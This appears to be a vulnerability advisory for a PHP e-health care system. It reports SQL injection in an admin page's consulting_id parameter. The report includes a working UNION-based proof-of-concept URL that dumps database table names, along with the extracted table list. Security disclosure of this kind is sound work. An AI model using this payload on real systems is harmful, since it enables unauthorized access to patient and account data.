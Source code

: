 # E-Health Care System IN PHP consulting_detail.php has SQL injection vulnerability

## supplier
https://code-projects.org/e-health-care-system-in-php-css-js-and-mysql-free-download/
## Vulnerability file
/Admin/consulting_detail.php
## describe
There are unrestricted SQL injection attacks in the health system. Parameters that can be controlled: consulting_id. There are no restrictions on adding consulting_id parameters to SQL statements in the consulting_detail.php. Hackers can gain unauthorized access to sensitive database information and webshells through this vulnerability.
## code analysis
The $_GET['consulting_id'] parameter in consulting_detail.php is controlled and carried directly into the SQL statement, resulting in unauthorized SQL injection.

![image-20241102021903600](https://github.com/user-attachments/assets/ccb2543a-c930-4b04-96ae-19005070d6e9)



## POC

```
http://healthcare/Admin/consulting_detail.php?consulting_id=11%27%20union%20select%20group_concat(table_name),database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23%20from%20information_schema.tables%20where%20table_schema%20=%20database();--+
```

Get the database name:  online_health_care

Get these tables name:   admin,appointment,comment,consulting_schedule,doc_message,doctor,message,schedule,tbl_comment,user

![image-20241102021537206](https://github.com/user-attachments/assets/066e3281-6fec-411e-82f5-245c50180ad4)

```
password=1&repassword=1&email=1@qq.com&username=1&fname=1&lname=1&submit=submit
```

